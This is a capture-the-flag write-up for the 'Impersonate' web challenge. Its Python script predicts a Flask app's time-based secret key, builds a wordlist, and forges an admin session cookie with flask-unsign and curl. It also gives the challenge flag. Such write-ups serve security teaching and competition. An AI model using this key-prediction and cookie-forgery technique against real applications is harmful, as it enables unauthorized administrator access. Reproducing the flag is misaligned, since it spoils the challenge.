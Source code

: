 # Impersonate
## Description
> One may not be the one they claim to be.
> 
> http://chal.competitivecyber.club:9999/

![image](https://github.com/user-attachments/assets/68930f4a-5817-496e-b2d5-9268823832ae)
http://chal.competitivecyber.club:9999/user/fe117fbc-21a5-5858-9e15-c533e05c3a2c
uid = fe117fbc-21a5-5858-9e15-c533e05c3a2c
```
 
# Wordlist untuk server time. 
import hashlib
import requests
import uuid
from datetime import datetime, timedelta

login_url = 'http://chal.competitivecyber.club:9999/'
status_url = 'http://chal.competitivecyber.club:9999/status'

credentials = {
    'username': 'testuser',
    'password': 'testpass'
}

secret = "31333337-1337-1337-1337-133713371337"
username = "testuser"
uid = uuid.uuid5(uuid.UUID(secret), username)
print("Generated UUID:", uid)

session = requests.Session()

def attempt_login():
    response = session.post(login_url, data=credentials, verify=False)
    return response.ok

def fetch_server_time():
    try:
        response = requests.get(status_url)
        response.raise_for_status()
        return response.text.split("Server time:")[1].strip().rstrip(',')
    except requests.RequestException:
        return None

if attempt_login():
    server_time_str = fetch_server_time()
    if server_time_str:
        server_time = datetime.strptime(server_time_str, '%Y-%m-%d %H:%M:%S')
        print(f"Server time: {server_time}")

        secure_keys = {}
        for i in range(1000):
            past_date = server_time - timedelta(seconds=i)
            past_date_str = past_date.strftime('%Y%m%d%H%M%S')
            secure_key = hashlib.sha256(f'secret_key_{past_date_str}'.encode()).hexdigest()
            secure_keys[past_date.strftime('%Y%m%d%H%M%S')] = secure_key

        with open('secure_keys', 'w') as file:
            for key in secure_keys.values():
                file.write(f"{key}\n")

#flask-unsign --wordlist secure_keys.txt --unsign --cookie 'cookies' --no-literal-eval 

# curl --cookie "session='flask-unsign --sign --secret d1f7d4f4df088b51531682b9eade1b37d659b01f373b6c06f16427a817a09665 --cookie \"{'is_admin': True, 'uid': 'fe117fbc-21a5-5858-9e15-c533e05c3a2c', 'username': 'administrator'}\"'" http://chal.competitivecyber.club:9999/admin 
```
## Flag
```
PCTF{Imp3rs0n4t10n_Iz_Sup3r_Ezz}
```
